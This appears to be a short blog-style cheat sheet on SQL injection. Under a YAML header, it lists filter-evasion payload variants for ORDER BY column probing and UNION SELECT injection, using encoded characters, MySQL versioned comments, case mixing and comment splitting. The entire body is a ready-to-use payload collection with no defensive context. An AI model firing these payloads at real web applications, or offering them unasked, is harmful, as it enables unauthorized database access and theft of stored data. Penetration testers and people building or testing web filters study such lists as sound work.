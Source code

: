 ```yaml
---
title: sql injection
date: 2019-04-13 00:00:00 +5:30
categories: [cheat sheat, easy]
tags: [sql injection] # add tag
image: /assets/img/sql/sql.png
---
```


CHEAT SHEAT SQL INJECTION

[~] order by [~]

order by 1 asc-- -
+%0Aorder+%0Aby+1--+-
+/*!50000ORDER%20BY*/+1--+-
/**/ORDER/**/BY/**/
/*!order*/+/*!by*/
/*!ORDER BY*/
/*!50000ORDER BY*/
/*!50000ORDER*//**//*!50000BY*/
/*!12345ORDER*/+/*!BY*/

[~] UNION select [~]

AnD point(29,9) /*!50000UnION+*/ /*!50000SelEcT+*/
/*!50000%55nIoN*/ /*!50000%53eLeCt*/
%55nion(%53elect 1,2,3)-- -
+union+distinct+select+
+union+distinctROW+select+
/**//*!12345UNION SELECT*//**/
/**//*!50000UNION SELECT*//**/
/**/UNION/**//*!50000SELECT*//**/
/*!50000UniON SeLeCt*/
union /*!50000%53elect*/
+#uNiOn+#sEleCt
+#1q%0AuNiOn all#qa%0A#%0AsEleCt
/*!%55NiOn*/ /*!%53eLEct*/
/*!u%6eion*/ /*!se%6cect*/
+un/**/ion+se/**/lect
uni%0bon+se%0blect
%2f**%2funion%2f**%2fselect
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
REVERSE(noinu)+REVERSE(tceles)
/*--*/union/*--*/select/*--*/
union (/*!/**/ SeleCT */ 1,2,3)
/*!union*/+/*!select*/
union+/*!select*/
/**/union/**/select/**/
/**/uNIon/**/sEleCt/**/
+%2F**/+Union/*!select*/
/**//*!union*//**//*!select*//**/
/*!uNIOn*/ /*!SelECt*/
+union+distinct+select+
+union+distinctROW+select+
uNiOn aLl sElEcT
UNIunionON+SELselectECT
/**/union/*!50000select*//**/
0%a0union%a0select%09
%0Aunion%0Aselect%0A
%55nion/**/%53elect
uni<on all="" sel="">/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/
%252f%252a*/UNION%252f%252a /SELECT%252f%252a*/
%0A%09UNION%0CSELECT%10NULL%
/*!union*//*--*//*!all*//*--*//*!select*/